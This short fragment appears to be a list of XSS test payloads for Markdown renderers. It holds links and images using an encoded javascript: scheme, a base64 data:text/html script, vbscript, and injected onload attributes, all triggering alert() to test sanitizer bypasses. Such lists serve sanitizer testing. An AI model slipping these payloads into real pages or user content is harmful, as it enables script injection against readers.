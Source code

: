 [Link](j%61vascript:alert('XSS'))
[Link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[Link](vbscript:msgbox("XSS"))
![Image](image.jpg "onload="alert(1)" onload="alert(1)")
![Image](image.jpg "on%6Coad=alert(1)")
![Image](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9ImFsZXJ0KDEpIj48L3N2Zz4=")
![Image](image.jpg "on%6Coad=alert(1)")
